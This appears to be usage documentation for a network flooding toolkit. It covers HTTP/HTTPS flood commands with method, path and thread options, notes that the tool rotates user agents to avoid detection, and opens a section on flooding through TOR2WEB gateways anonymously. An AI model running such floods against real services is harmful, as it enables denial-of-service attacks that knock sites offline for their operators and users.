Version 0.2 expanded the toolkit's capabilities with application layer testing modules.

### HTTP Flooding

The HTTP flooding module sends HTTP/HTTPS requests to web servers to test their request handling capabilities.

#### Command Syntax

```bash
python main.py http -t [targets] [options]
```

#### Specific Options

| Option        | Description                 | Default |
| ------------- | --------------------------- | ------- |
| `--method`    | HTTP method (GET/POST/HEAD) | GET     |
| `--path`      | Target URL path             | /       |
| `-p, --ports` | Target ports                | 80,443  |

#### Examples

```bash
# Basic HTTP flood test
python main.py http -t example.com -p 80 --method GET -d 60 -T 10

# HTTP POST flood with increased threads
python main.py http -t example.com -p 80 --method POST -d 60 -T 20

# Custom path with HTTPS
python main.py http -t example.com -p 443 --method GET --path /api/v1/test
```

#### Technical Details

The HTTP module:

- Supports GET, POST, and HEAD methods
- Handles both HTTP and HTTPS protocols
- Uses connection pooling for efficient resource usage
- Rotates user agents to avoid detection

### TOR2WEB Flooding

The TOR2WEB flooding module tests targets through TOR2WEB gateways, providing a way to test services anonymously.

#### Command Syntax

```bash
python main.py tor2web -t [targets] [options]
```
